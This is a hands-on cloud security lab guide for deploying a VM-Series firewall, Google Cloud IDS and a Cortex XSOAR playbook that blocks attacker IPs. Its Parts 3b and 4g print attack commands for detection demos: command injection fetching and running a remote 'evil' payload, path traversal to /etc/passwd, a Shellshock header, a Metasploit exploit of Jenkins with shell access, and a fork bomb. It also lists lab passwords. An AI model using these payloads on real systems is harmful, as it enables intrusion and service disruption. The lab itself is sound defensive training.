

# Enhanced Layered Network Security Approach for Google Cloud


## Overview

In this lab, you will use the Palo Alto Networks VM-Series ML-NGFW and Google Cloud IDS to provide a layered network security approach for Google Cloud VPC networks.  

You will learn how the VM-Series firewall protects cloud networks by controlling user applications and automatically preventing threats in realtime.  You will then deploy Google Cloud IDS, a native Google Cloud security offering powered by Palo Alto Networks threat detection technologies, to detect network threats and applications.  You will then enable automatic incident response through Cortex Playbooks triggered by Cloud IDS events. 

## Objectives 

* **Part 1: Create a Cloud IDS Endpoint** 
    * Deploy a Cloud IDS endpoint.
* **Part 2: Protect VPC Networks with VM-Series ML-NGFW** 
    * Prevent north/south threats with VM-Series.
    * Safely enable applications with VM-Series.
* **Part 3: Detect Threats & Applications with Cloud IDS**
    * Configure traffic mirroring policy.
    * Detect threats with Cloud IDS
    * Gain applicaiton visibility with Cloud IDS
* **Part 4: Automate Response with Cortex XSOAR**
    *  Configure Cloud IDS to send events to XSOAR.
    * Execute XSOAR playbook to block threat detected by Cloud IDS.


## Topology
The red and blue lines represent inter-VPC and intra-VPC traffic flows, respectively.  All inter-VPC traffic is routed to the VM-Series ML-NGFW for in-line prevention.   All intra-VPC traffic is mirrored to Google Cloud IDS for out-of-band threat & application detection.  

The green line represents the integration between Cortex XSOAR and CLoud IDS.  Threats detected by Cloud IDS are automatically blocked through Cortex Playbooks.


## Lab Startup

### Before beginning
 
To complete this lab, you'll need:
 
* Access to an internet browser.
* Note the lab's **Completion** time in Qwiklabs.  Plan your schedule so you have time to complete the lab. 
* Once you start the lab, you will not be able to pause and return later (you begin at step 1 every time you start a lab).
* You do **NOT** need a Google Cloud Platform account or project. An account, project and associated resources are provided to you as part of this lab.
* If you already have your own GCP account, make sure you do not use it for this lab. Using incognito mode on your browser prevents you from mistakenly making changes in your own GCP account.


### Launch the lab

When you are ready, click **Start Lab**.  Wait for the environment to finishing provisioning resources.


### Access the Google Cloud Console

After the lab resources are provisioned, you can access your lab environment's Google Cloud console. 

**Keep your Qwiklabs portal open in a separate browser tab or window.  The outputs generated in the Qwiklabs portal are used throughout the remainder of the lab.**

1.  In the Qwiklabs portal, click the **Console** button. 
2.  Login with the **Console username** and **Console Password**.
    
    ****

3.  Accept the EULA agreements.
    
    


## Part 1: Create a Cloud IDS Endpoint

In this section, we will create a Cloud IDS endpoint through the Google Cloud console.  Traffic across your Google Cloud networks is mirrored to a Cloud IDS endpoint for inspection.

1. On the console, go to **Network Security → Cloud IDS** to create the Cloud IDS endpoint.  
    
    

1. Click **Endpoints → Create Endpoint**

    

2. Configure the Cloud IDS endpoint as follows:
    * **Name**: `cloud-ids-endpoint`
    * **Network**: `panw-trust-vpc`
    * **Region**: `us-central1`
    * **Zone**: `us-central1-a`

    

3. Configure the IDS service profile as follows:
    * **Minimum threat severity alert**: `Informational`
    * **Traffic logs**: `On`

    

**Continue to the next part of the lab. You do not need to wait for the endpoint to finish provisioning.** 

## Part 2: Protect networks with VM-Series ML-NGFW
In this section, we will protect our VPC network from internet bound threats by leveraging App-ID and Threat Prevention on the VM-Series firewall.


### 2a. Verify environment is ready
The virtual machines in this lab can take up to 10 minutes to finish their deployment.  Here we will verify the machines are ready.

1. Copy and paste the **Juice Shop URL** output into a web browser tab.

    

2. Once you receive the Juice Shop web page successfully, please proceed to the next part of this lab.


### 2b. Safely enable applications with App-ID

Within the trust network, there is a VM that runs a HTML and a Jenkins service.  The VM-Series is preconfigured to allow inbound web-browsing, but the VM-Series security policies have not been configured to allow Jenkins.

Now, let's walk through how to enable Jenkins with the VM-Series layer-7 detection capabilities. 

1. Copy and paste the **Web Server URL** output into a web browser tab.  

    

The web page resolves because the VM-Series security policy is allowing generic `web-browsing` traffic. 

1. The Jenkins service listens on TCP/8080.  Append port `8080` to the **Web Server URL** address.

    

The Jenkins page will not resolve.  This is because the VM-Series does not have `jenkins`  listed as an allowed application.

3. Copy and paste the **VM-Series URL** output into a web browser tab. 

    

**Username**: `admin`

**Password**: `Pal0Alt0@123`

4. Go to **Policies → Security**.  Click the allowed applications column within the **inbound-web** security policy.

    

5. Click **Add** and search for `jenkins`.  Click OK.

    

6. Commit the changes.

    

7. Refresh the Jenkins page.  The Jenkins page should now resolve. This is because we have added the `jenkins` App-ID to the VM-Series security policies. 

    

If the Jenkins page does not resolve double check you have appended `8080` to the URL.

1. On the VM-Series, go to **Monitor → Traffic** to view the traffic logs. Enter the query below to filter for TCP/8080 traffic.

```
( port.dst eq 8080 ) and ( app neq web-browsing )
```


Notice the Jenkins application was previously denied before the application was added to the **inbound-web** security policy.  Jenkins traffic was denied now it is allowed.   This demonstrates the VM-Series ability to enforce layer-7 controls with App-ID.


### 2c. Prevent internet inbound threats

In this section, we will run a sudo attack to demonstrate the VM-Series prevention capabailities for internet inbound threats towards private cloud resources.   


1. Copy and paste the **Inbound Threat** output into Cloud Shell.  The command attempts to retrieve the Jenkins server's password file.

    

The curl command will fail with `curl: (56) Recv failure: Connection reset by peer`.  

This is because the VM-Series is performing threat prevention on internet inbound traffic.


2. Go to **Monitor → Threat** to view the VM-Series threat logs.

    

    You will see the attempt to retrieve the passwords file was prevented.  
    
    


### 2d. Prevent internet outbound threats

Now, we will log in to a private cloud resource and attempt to download a malicious file from the internet. 

1. Copy and paste the **Attacker VM Login** output into Google Cloud Shell. **Password**: `kali`

    

2. Attempt to download a sudo-malicious file from the internet.  

```
wget www.eicar.org/download/eicar.com.txt
```


The download request will fail.  This is because the VM-Series is preventing malicious file downloads through its content inspection engine. 

1. Go back to **Monitor → Threat** to view the threat log.

    


2. It is likely other threats are visible in the threat logs.  These are real threats hitting the public address assigned to the VM-Series compute instance. 

    You can click the magnify glass next to any of the logs to view more information, including:  threat severity, filename, file type, application, source/destination country, user, and more.

    


## Part 3. Google Cloud IDS

In this part, we will configure a traffic mirroring policy for a Cloud IDS endpoint to detect threats and log application traffic.  Then, we will generate malicious traffic from an attacker VM (Kali linux) and leverage an exploit against our Jenkins server.  Once the attack is complete, we will review the Cloud IDS application and threat logs in Cloud Monitoring.


### 3a. Attach Traffic Mirror Policy to Cloud IDS Endpoint

1. On the console, go to **Network Security → Cloud IDS**.  
    
    

2. Click **Endpoints**.  Click **Attach** on the  `cloud-ids-endpoint` you created in Part 1.

    

3. Define the packet mirroring policy as follows.  This policy sends all traffic logs from our internal subnet to the Cloud IDS endpoint for inspection.
   1. **Policy name**: `all-traffic`
   2. **Policy Enforcement**: `Enabled`
   3. **Mirrored source**: *Select one or more subnets* → **us-central1-trust-subnet**
   4. **Select mirrored traffic**: `Mirror all traffic (default)`

        


### 3b. Launch East-West Threat

1. Copy and paste the **Attacker VM Login** output into Cloud Shell. **Password**: `kali`

    

2. On the Attacker VM, `curl` the Jenkins server. We will view this traffic later in section **3c**.

    ```
    curl http://192.168.11.4:8080
    ```

3. Run the following `curl` requests to simulate malicious traffic.
   
    ```
    curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://192.168.11.20/?item=../../../../WINNT/win.ini
    curl http://192.168.11.20/eicar.file
    curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
    ```


4. Run the following command to use an exploit pack against the Jenkins server. 

    ```
    msfconsole -r jenkins.rc
    ```

    (Output)

    

5. Access the shell of Jenkins server.

    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

    (Output)

    

6. You are now logged into the Jenkins server via reverse tunnel. Check which account you’re using:

    ```
    whoami
    ```

    (Output)

    

7. Drop a simple fork bomb to crash the Jenkins server.

    ```
    :(){ :&:;};:
    ```

8.  After a few seconds, abort the session. **CTRL+C**. Enter `y`.

9.  Exit the Attacker instance and Cloud Shell.  
    ```
    exit
    exit
    exit
    ``` 

    (Output)

    


10. Attempt to reach the Jenkins URL again on TCP/8080 or TCP/80.  The service is unresponsive because we crashed it.

    (Output)

    


### 3c. View Threat Logs on Cloud IDS

The threat logs generated by Cloud IDS can be viewed directly in the Google Cloud console.

1. On the Cloud IDS dashboard click **THREATS → Refresh**.  See the threats Cloud IDS detected based on our simulated malicious traffic patterns. 

    

2.  You can view additional details about a given log by clicking **⋮ → View threat details**.

    


### 3d. View Cloud IDS Traffic Logs

Cloud IDS also ingests traffic logs based on your endpoint and traffic mirroring policy configuration.  This enables you to gain visibility into application traffic, including: source and destination addresses, L7 application ID, source and destination countries, repeat count, threat type, and more. 


1. Click **Endpoints → cloud-ids-endpoint → View related logs**.  This will bring you to Log Explorer. 

    

2. In Log Explorer, you can create queries to filter for different logs.  Adjust the query to filter for all traffic with the App-ID `web-browsing`.
   1. Click **Clear Query**.
   2. Paste the query below.
        ```
        resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-central1-a")

        jsonPayload.application="web-browsing"
        ```
    1. Click **Run query**.
   
        

3. Modify the query to search for the Jenkins traffic we generated between our Attacker VM (`192.168.11.3`) and Jenkins VM (`192.168.11.4`).   
   1. Click **Clear Query**.
   2. Paste the query below.
        ```
        resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-central1-a")

        jsonPayload.application="jenkins"
        jsonPayload.source_ip_address="192.168.11.3"
        jsonPayload.destination_ip_address="192.168.11.4"
        ```
    3. Click **Run query**.
   
        

   3. Expand the traffic log to view more information.
    
        


## Part 4.  Automate Response with Cortex XSOAR

In this part of the lab, we will configure Cortex XSOAR to receive threat information from Cloud IDS.  When a threat is detected, XSOAR executes a playbook to automatically block the attacker's IP address by adding it to a black-list VPC firewall rule.

### 4a. Configure Pub/Sub Topic and Subscription 

Here, we will configure Pub/Sub topic and subscription.  XSOAR subscribes to the Pub/Sub topic to receive events generated by Cloud IDS. 

1. Open Google Cloud Pub/Sub.

    

2. Create the Pub/Sub Topic. 
   1. Click **Topics**.
   2. Click **CREATE TOPIC**.
   3. **Topic ID**: `cloud-ids`
   4. Check on **Add a default subscription**.
   5. Click **CREATE TOPIC**.
        
        

3. In **Log Explorer**, create a query to filter for all threat logs. 
    1. Go to **Logging → Logs Explorer**.  
    2. Click **Log name**.
    3. Search and add `threat`.
    4. Click **Apply**.

        

4. Create a log sink for the Cloud IDS threat logs.
   1. Click **Actions**.
   2. Click **Create sink**.

        

5. Configure the log sink as follows:
   1. **Sink name**: `cloud-ids-threat`
   2. **Select sink service**: `Cloud Pub/Sub topic` 
   3. **Select a Cloud Pub/Sub topic**:  Your `cloud-ids` topic.
   4. Click **CREATE SINK**.

        


### 4b.  Create service accounts

Now, we will dowload your user's service account key.  This key will be used to authenticate XSOAR to your Google Cloud tenant. 


1. Go to **IAM & Admin → Service Accounts**
2. Find your `qwiklabs-gcp-00-******` service account. 
3. Click **⋮ → Manage Keys**.
    
    
    

4. Click **ADD KEY → CREATE NEW KEY**
5. Set key type to **JSON**.
6. Click **CREATE** 

    

**Your JSON key will download to your local machine.**


### 4c.  Create VPC firewall rule

Now, we will create an explicit deny-all VPC firewall rule.  When XSOAR receives a threat from Cloud IDS, XSOAR executes a playbook that add's the attacker's IP address to the explicit deny-all rule. 

1. Go to **VPC networks → Firewall → CREATE FIREWALL RULE**

    

2. Create the firewall rule as follows:
    1. **Name**: `xsoar-blacklist`
    2. **Network**: `panw-trust-vpc`
    3. **Priority**: `10`
    4. **Action on match**: `Deny`
    5. **Targets**: `All instances in the network`
    6. **Source IPv4 Ranges**: `1.1.1.1`
    7. **Portocols and ports**: `Deny all`

        


### 4d.  Configure XSOAR Incident Type.

Create a custom Incident Type for Cloud IDS security events.

1. Copy and paste the **XSOAR URL** output into a web browser tab.

    

    **Username**: `admin`

    **Password**: `fjvrcrkFw1PU6fSYizJA`

2. Create a new incident type.  
   1. Go to **Settings → Objects Setup → Incidents → Types → New Incident Type**

        

   2. Enter `Cloud IDS `for Incident Type's name.  Click **Save**.

        


### 4e. Setup Google Cloud XSOAR integrations

Configure the Google Cloud Compute and Pub/Sub integrations so XSOAR can receive events from Cloud IDS.

 1. Go to **Settings → Integrations**.  Search for `google cloud compute` and click **Add instance**.

     

 2. Configure the instance as follows:
    1. Copy the content of your service account to your clipboard.
    2. Paste your clipboard into **Service Acccount Private Key file contents (JSON)**.
    3. Click **Test** to verify everything is working.
    4. Click **Save & Exit**.

        


3. Within **Integrations**, search for `google cloud pub/sub`.  Click **Add instance**.

    

4. Configure the instance as follows:
   1. Select **Fetch incidents**.
   2. **Incident type**: `Cloud IDS` (this is the incident type we created previously)
   3. **Trust any certificate**: ON
   4. **Service account**: Copy and paste the content service account JSON file
   5. **Trust any certificate**: ON 
   6. **Default project ID**: Enter your Qwiklabs project ID (can be found on homepage of Google Cloud console)
   7. **Fetch incidents using the subscription ID**: `cloud-ids-sub` (this is the subscription of our cloud-ids topic)
   8. Click **Test** to verify everything is working.
   9. Click **Save & Exit**.
       
       


### 4f. Prepare XSOAR Playbook

Prepare the XSOAR playbook to automatically block attacker IPs by adding them to the `xsoar-blacklist` VPC firewall rule. 

1. Install the Cloud IDS XSOAR playbook.
   1. Open **Marketplace**
   2. Click **Browse**.  
   3. Search for `Cloud IDS`. 
   4. Open the **Cloud-IDS**.
   5. Click **Install**

    

2. Open the Cloud IDS XSOAR playbook.
   1. Open **Playbooks**.
   2. Search for `Cloud IDS`.
   3. Select `Cloud IDS-IP Blacklist-GCP Firewall_Combine`
   4. To edit the playbook, click **⋮ → Detach Playbook**.

    

3. Set the Cloud IDS XSOAR playbook trigger.
   1. Click the **Settings** (gear icon) → **Playbook triggers**. 
   2. Select `Cloud IDS`.
   3. Click **Save all tabs**.

    

4. Specify the VPC firewall rule as the rule to be updated when a threat is detected.
   1. In the Playbook, click **Playbook Triggered**.
   2. Set the value for **GCPFirewallName** to `xsoar-blacklist`.
   3. Click **Save**.
   4. Click **Save all tabs**.

    

5. Reattach the playbook.

### 4g. Simulate malicious traffic.

Now we will simulate malicious traffic with our Attacker VM, again.  If everything has been configured correctly, the `xsoar-blacklist`  rule will be updated with our Attacker's IP address `192.168.11.3` to prevent it from communicating on the network.

1. Copy and paste the **Attacker VM Login** output into Cloud Shell. **Password**: `kali`

    


2. Generate malicious traffic with the following curl commands. 

    ```
    curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://192.168.11.20/?item=../../../../WINNT/win.ini
    curl http://192.168.11.20/eicar.file
    curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
    ```

3. Go to **Cloud IDS → Threats** to view the threat logs.

       


4. Go to  **VPC network → Firewall → xsoar-blacklist**.
   
      

   You should see the attacker IP 192.168.11.3 has been added to your blacklist rule automatically by XSOAR.


## Bonus

Feel free to log into the lab environment later to see how many malicious IPs have been added to your blacklist.


## Congratulations! You've completed the lab!
 
 You have learned how to leverage VM-Series and Cloud IDS to provide in-line and out-of-band network prevention across your Google Cloud networks.  You have also learned how to leverage Cortex XSOAR to provide end-to-end orchestration and remediation for security events detected in Google Cloud. 